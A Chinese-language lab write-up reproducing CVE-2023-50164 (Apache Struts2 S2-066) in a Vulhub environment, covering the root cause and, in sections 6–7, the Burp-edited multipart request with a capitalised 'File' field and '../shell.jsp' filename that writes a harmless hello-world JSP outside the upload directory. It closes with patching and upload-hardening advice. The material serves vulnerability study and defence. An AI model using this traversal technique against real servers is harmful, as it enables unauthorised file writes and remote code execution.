






# CVE-2023-50164 - Apache Struts2 S2-066 文件上传路径穿越漏洞复现

#### 1. 漏洞概述

CVE-2023-50164 是 Apache Struts2 文件上传处理逻辑中的路径穿越漏洞。该漏洞对应 Struts2 官方安全公告 S2-066，官方描述为：文件上传逻辑存在缺陷，攻击者可以操纵上传参数，使路径中出现目录穿越；在特定条件下，恶意文件可能被上传到可执行位置，从而导致远程代码执行。Apache 官方将该漏洞评为 critical，并建议升级到 Struts 2.5.33、6.3.0.2 或更高版本。

NVD 对 CVE-2023-50164 的描述也指出，攻击者可操纵文件上传参数触发路径穿越，并在某些情况下上传可用于远程代码执行的恶意文件；NVD 给出的 CVSS 3.1 基础评分为 9.8，风险等级为 Critical。

该漏洞不是传统 URL 参数中的 `../` 读取文件，而是发生在 **Struts2 文件上传参数绑定、文件名处理、上传保存路径计算** 的过程中。攻击者通过构造大小写变体的上传字段名和额外的文件名字段，使框架原本用于防止路径穿越的 basename 保护被绕过，最终把文件写入预期上传目录之外的位置。

---

## 2. 影响版本与利用条件

官方 S2-066 公告列出的影响范围如下：Struts 2.0.0 - 2.3.37、Struts 2.5.0 - 2.5.32、Struts 6.0.0 - 6.3.0。修复版本为 Struts 2.5.33、6.3.0.2 或更高版本。

漏洞利用通常依赖以下条件：

| 条件         | 说明                            |
| ---------- | ----------------------------- |
| 使用受影响版本    | 例如 Vulhub 环境中的 Struts2 2.5.32 |
| 存在文件上传功能   | 目标接口需要使用 Struts2 的文件上传处理逻辑    |
| 上传参数可被构造   | 能够控制 multipart 表单字段名、文件名字段等内容 |
| 保存路径可被影响   | 文件名处理逻辑被绕过后，路径穿越内容进入最终保存路径    |
| RCE 依赖额外条件 | 文件需要落到 Web 可访问、可解析的位置         |

Vulhub 官方页面说明，该漏洞存在于 Struts2 文件上传功能中，攻击者可以通过操纵表单字段名称大小写，把文件上传到预期上传目录之外的位置；其环境使用 Struts2 2.5.32，并提供一个简单文件上传页面。

## 3. 漏洞原理

Struts2 在处理文件上传时，通常会对上传文件名做 basename 处理，只保留基础文件名，避免上传文件名中携带路径穿越内容。例如正常情况下：

```
../../shell.jsp
```

应该被处理为：

```
shell.jsp
```

这样文件会被保存到预期上传目录，而不是逃逸到上级目录。

S2-066 的问题在于**上传参数处理存在逻辑缺陷**。Vulhub 对该缺陷的描述是：攻击者可以使用**首字母大写的表单字段名**，并**提供一个包含路径穿越文件名的单独表单字段**，使未经处理的文件名**覆盖 basename 保护**后的结果，最终导致路径穿越。

Trend Micro 对该漏洞的技术分析也指出，漏洞与参数大小写处理差异有关。修复前，HTTP 参数存在大小写敏感处理差异，例如 `param1` 和 `Param1` 可能被视为不同参数；攻击者可通过参数污染方式引入额外参数，使带路径穿越内容的文件名进入最终处理流程。

漏洞链路可以概括为：

```
正常上传字段
→ 构造大小写变体字段名
→ 额外文件名参数携带 ../
→ 绕过 basename 文件名保护
→ 文件保存到上传目录之外
→ JSP 落入可解析位置后被执行
```

这类问题的本质是 **文件上传参数绑定与路径安全处理之间出现不一致**。框架以为自己处理的是已净化的文件名，但最终进入保存逻辑的却是攻击者构造的路径穿越文件名。

## 4. Vulhub 环境启动

进入 Vulhub 对应目录：

```
cd vulhub/struts2/s2-066
```

启动环境：

```
docker compose up -d
```

环境启动后，浏览器访问：

```
http://127.0.0.1:8080
```

正常情况下可以看到一个简单的文件上传页面。Vulhub 官方页面也说明，启动后访问 `http://your-ip:8080` 即可看到应用页面。

这一部分只用于确认靶场启动成功，不进行漏洞触发。



## 5. 浏览器进行普通上传验证

先准备一个简单 JSP 文件，内容只用于验证是否被 JSP 引擎解析，不写命令执行逻辑：

```
<%  out.println("hello world");%>
```



保存为：

```
shell.jsp
```

浏览器打开上传页面，选择 `shell.jsp`，正常提交上传。



上传成功后，根据页面提示访问普通上传目录中的文件。Vulhub 官方说明中也提到，正常上传 JSP 文件可以成功，但由于服务器配置，上传目录 `upload/` 中的 JSP 代码无法被执行。



```
文件上传成功但 upload/ 目录中的 JSP 不会被解析执行
```

## 6. 使用 Burp 复现路径穿越上传

这一段是漏洞触发核心，使用 Burp 修改 multipart 表单内容。

### 6.1 捕获普通上传动作

浏览器开启 Burp 代理后，再次在上传页面选择 `shell.jsp` 并提交。  
将这次上传动作发送到 Repeater。

此处只需要关注 multipart 表单中的两个关键点：

```
文件字段名
文件名相关字段
```

不要改业务页面，也不要换工具；目标是保留浏览器正常上传流程，只在 Burp 中调整上传参数。

### 6.2 修改上传字段

在 Burp Repeater 中，将上传文件字段名改成首字母大写形式。以 Vulhub 示例为准，核心字段类似：

```
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
```

随后添加或修改对应的文件名字段，使其携带路径穿越内容：

```
Content-Disposition: form-data; name="fileFileName"

../shell.jsp
```

Vulhub 官方示例中也使用了 `name="File"` 上传文件，并通过 `fileFileName` 写入 `../shell.jsp`，使 JSP 文件被上传到预期上传目录之外。

这里的关键不是 `hello world`，而是：

```
File 字段名大小写变体
+
fileFileName 中的 ../shell.jsp
```

这会使上传保存路径逃逸出原本的 `upload/` 目录。



### 6.3 发送并判断上传结果

发送后，如果页面返回上传成功或正常响应，说明服务端接受了这次构造后的上传内容。



这一步的判断不看页面是否立即显示 `hello world`。  
真正判断漏洞是否成功，要看文件是否被写到了 Web 根路径下，并能被 JSP 引擎解析。

## 7. 浏览器验证 JSP 执行

上传完成后，使用浏览器访问：

```
http://127.0.0.1:8080/shell.jsp
```

如果漏洞触发成功，页面会显示：

```
hello world
```

这说明 `shell.jsp` 没有停留在受限的 `upload/` 目录，而是通过路径穿越被写到了 Web 可访问、可解析的位置。Vulhub 官方页面也说明，利用成功后 JSP 文件会被上传到受限上传目录之外，并可以通过访问 `/shell.jsp` 执行。

到这里即可证明漏洞成立。复现文档中不建议写命令执行 WebShell，`hello world` 足够证明 JSP 解析链已经打通。

## 8. 结果判断

| 现象                                  | 含义                            |
| ----------------------------------- | ----------------------------- |
| 普通上传成功，但 `upload/` 下 JSP 不执行        | 上传目录受限，普通上传不能直接 RCE           |
| Burp 修改后上传仍成功                       | 服务端接受构造后的上传参数                 |
| 浏览器访问 `/shell.jsp` 返回 `hello world` | 文件被写到上传目录之外，并被 JSP 解析         |
| `/shell.jsp` 404                    | 文件未成功写出目录，或路径不一致              |
| `/shell.jsp` 下载/显示源码                | JSP 未被服务器解析                   |
| 页面报错                                | multipart 边界、字段名、大小写或文件名字段不匹配 |

这类漏洞的验证重点不是“上传成功”四个字，而是：

```
文件是否逃逸出预期上传目录
文件是否进入 Web 可访问位置
文件是否被服务器按 JSP 解析
```

## 9. 修复建议

### 9.1 升级 Struts2

官方推荐升级到：

```
Struts 2.5.33 或更高版本
Struts 6.3.0.2 或更高版本
```

Apache S2-066 公告明确给出的解决方案就是升级到上述版本。

### 9.2 限制上传文件类型与落点

上传功能应避免将用户文件保存到 Web 可执行目录。即使路径穿越出现，也应尽量保证上传文件无法被 JSP、Servlet、模板引擎或其他执行链解析。

建议：

```
上传目录与 Web 根目录隔离
上传目录禁止脚本执行
文件名服务端随机化
不使用用户原始文件名作为保存路径
```

### 9.3 服务端重新校验最终路径

文件保存前应对最终路径进行规范化，并确认最终路径仍在预期上传目录内。

防护链路应为：

```
接收上传文件
→ 服务端生成安全文件名
→ 拼接固定上传目录
→ 规范化最终路径
→ 校验最终路径仍在上传目录内
→ 保存文件
```

不能只依赖前端限制、扩展名校验或框架默认处理。

### 9.4 最小化 JSP 执行面

如果业务不需要用户上传内容被服务器动态解析，应确保上传目录不会被 JSP 引擎处理。  
这类漏洞能从路径穿越扩大为 RCE，关键就在于文件最终落入了可执行位置。

## 10. 复现总结

CVE-2023-50164 的核心是 Struts2 文件上传处理逻辑缺陷。攻击者通过构造大小写变体的上传字段名，并引入携带 `../` 的文件名字段，使框架原本用于防止路径穿越的 basename 保护失效，最终把文件写入预期上传目录之外。

本地复现中，普通浏览器上传只能证明上传功能存在；真正触发漏洞需要在 Burp 中修改 multipart 表单字段。漏洞验证成功的标志不是“上传成功”，而是浏览器访问 `/shell.jsp` 后返回 `hello world`，说明 JSP 文件已经逃逸出受限上传目录，并被服务器解析执行。

这类漏洞适合归入路径遍历笔记中的“写入型路径遍历”与“文件上传路径穿越”案例。它比单纯任意文件读取更接近真实攻击链：路径穿越只是入口，最终风险取决于文件落点、解析权限和上传目录隔离策略。
